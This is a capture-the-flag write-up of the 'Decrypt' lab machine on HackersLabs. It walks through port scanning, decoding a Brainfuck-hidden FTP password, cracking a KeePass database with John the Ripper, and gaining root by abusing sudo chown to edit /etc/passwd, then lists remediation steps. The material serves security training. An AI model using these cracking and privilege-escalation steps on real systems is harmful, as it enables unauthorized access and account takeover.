








# Decrypt - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackersLabs |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | `192.168.0.114` |
| **Date** | May 22, 2024 |

---

## 1. Executive Summary

The exploitation of the **Decrypt** machine begins with the discovery of a non-standard FTP service and a default Apache web page. By analyzing the source code of the web page, a Brainfuck-encoded string was found, which decoded into a password for the user `mario` on the FTP service. 

After accessing the FTP server, a KeePass database file (`.kdbx`) was retrieved and cracked locally to reveal SSH credentials for the user `chiquero`. Privilege escalation was achieved by abusing a `sudo` permission on the `chown` binary, allowing for the modification of the `/etc/passwd` file to grant the current user root privileges.

---

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning

First, the target IP was identified using `arp-scan`, followed by an OS detection and a full port scan.

```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.0.114

# Port Scanning
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.0.114 -oG allPorts
nmap -p22,80,2121 -sCV 192.168.0.114 -oN target
```



**Key Findings:**

| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 9.2p1 |
| 80 | HTTP | Apache httpd 2.4.59 |
| 2121 | FTP | vsftpd 3.0.3 |

### 2.2 Service Enumeration

#### HTTP (Port 80)
The web server displays a default Apache installation page. However, inspecting the HTML source code reveals a hidden comment or script containing a Brainfuck-encoded string on line 457.



**Brainfuck String:**
`++++++++++[>+++++++++++>++++++++++>+++++++++++>+++++++++++>+++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++++>+++++++++++>++++++++++>++++++++++++>++++++++++++>++++++++++>++++++++++<<<<<<<<<<<<<<<-]>-.>---.>++++.>-----.>+.>+.>---.>----.>-----.>--.>+.>----..>---.>-.>+.`

After decoding this string, the following plaintext was obtained:
`marioeatslettuce`



---

## 3. Exploitation (Foothold)

### 3.1 FTP Access & Database Extraction
Attempts to brute-force the FTP service were unsuccessful. However, using the discovered string `marioeatslettuce` as a password for the username `mario` allowed successful authentication on port 2121.

```bash
ftp 192.168.0.114 -p 2121
# User: mario
# Pass: marioeatslettuce
```

Inside the FTP server, a KeePass database file named `user.kdbx` was found and downloaded to the local machine.



### 3.2 KeePass Cracking
To access the contents of the `.kdbx` file, the master password needed to be cracked. `keepass2john` was used to extract the hash, which was then cracked using John the Ripper.

```bash
keepass2john user.kdbx > keepass.hash
john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash
```

The master password was found to be: `moonshine`.



Inside the database, credentials for the user `chiquero` were discovered:
- **User:** `chiquero`
- **Password:** `barcelona2012`



### 3.3 Initial Access (SSH)
Using the newly found credentials, a shell was obtained via SSH.

```bash
ssh chiquero@192.168.0.114
```



The user flag was located in the `/home/mario` directory.

---

## 4. Privilege Escalation

### 4.1 Local Enumeration
Checking for sudo permissions revealed that the user `chiquero` can run `/usr/bin/chown` as root without a password.

```bash
chiquero@Decryptor:~$ sudo -l
Matching Defaults entries for chiquero on Decryptor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User chiquero may run the following commands on Decryptor:
    (ALL) NOPASSWD: /usr/bin/chown
```

### 4.2 Privilege Exploitation (Abusing chown)
According to [GTFOBins](https://gtfobins.github.io/gtfobins/chown/), if `chown` can be run as root, we can change the ownership of sensitive system files. The plan was to take ownership of `/etc/passwd` and modify it to escalate privileges.

1. **Change ownership of `/etc/passwd`**:
   ```bash
   sudo chown chiquero:chiquero /etc/passwd
   ```

2. **Modify `/etc/passwd`**:
   Change the UID and GID of the user `chiquero` from `1002:1002` to `0:0`. This makes the system treat `chiquero` as the root user.

   ```bash
   nano /etc/passwd
   # Before: chiquero:x:1002:1002::/home/chiquero:/bin/bash
   # After:  chiquero:x:0:0::/home/chiquero:/bin/bash
   ```

3. **Re-authenticate**:
   By switching user to himself, the session updates with root privileges.

   ```bash
   su chiquero
   id
   ```



---

## 5. Flags & Evidence

**Chiquero**


**Root**


## 6. Remediation & Hardening

- **Secure Coding Practices:** Remove sensitive information, comments, or obfuscated code (like Brainfuck) from public-facing web source code.
- **Strong Password Policies:** Ensure that administrative files like KeePass databases use high-entropy master passwords to prevent offline cracking.
- **Principle of Least Privilege:** Do not allow standard users to run powerful binaries like `chown` via `sudo`. If `chown` is necessary, restrict it to specific, non-sensitive directories.
- **File Integrity Monitoring:** Implement tools like `AIDE` or `Tripwire` to monitor unauthorized changes to critical files like `/etc/passwd`.

---

Authored by: **Brutotes**  
[⬅️ Back to Home](../../README.md)